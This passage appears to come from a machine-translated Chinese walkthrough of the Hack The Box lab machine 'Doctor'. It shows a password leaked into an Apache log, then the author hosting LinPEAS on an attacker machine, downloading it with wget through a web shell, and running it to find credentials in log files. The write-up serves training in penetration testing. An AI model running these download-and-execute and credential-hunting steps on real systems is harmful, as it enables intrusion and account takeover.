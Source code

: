 
来自阿帕奇日志的这一行很有趣：

    ./apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
    

“Guitar123”看起来不像一个电子邮件地址。它看起来像一个密码。

#### 林皮亚斯

如果我没有手动检查，[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)也会为我找到这个。我将从主机上的Python Web服务器托管它：

    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

现在从我的Web shell中，我可以下载它，使其可执行并运行它：

    web@doctor:/dev/shm$ wget 10.10.14.6/linpeas.sh                                                                                                                                                           
    --2020-11-01 12:23:16--  http://10.10.14.6/linpeas.sh                                                                                                                                                     Connecting to 10.10.14.6:80... connected.                                                                                                                                                                 
    HTTP request sent, awaiting response... 200 OK                                                       
    Length: 159864 (156K) [text/x-sh]                                                                                                                                                                         
    Saving to: ‘linpeas.sh’                                                                                                                                                                                   
                                                                                                                                                                                                              
    linpeas.sh          100%[===================>] 156,12K  --.-KB/s    in 0,06s                                                                                                                              
                                                                                                                                                                                                              2020-11-01 12:23:16 (2,69 MB/s) - ‘linpeas.sh’ saved [159864/159864]                                                                                                                                      
                                                                                                         
    web@doctor:/dev/shm$ chmod +x ./linpeas.sh                                                                                                                                                                web@doctor:/dev/shm$ ./linpeas.sh
    ...[snip]...
    

密码出现在“在日志中查找密码”部分：

    [+] Finding passwords inside logs (limit 70)
    Binary file /var/log/apache2/access.log.12.gz matches
    Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
    Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
    Binary file /var/log/kern.log.2.gz matches
    Binary file /var/log/kern.log.4.gz matches
    Binary file /var/log/syslog.4.gz matches
    /var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
    /var/log/auth.log.1:Nov  1 11:42:04 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    /var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2                      
    /var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
    

### 苏
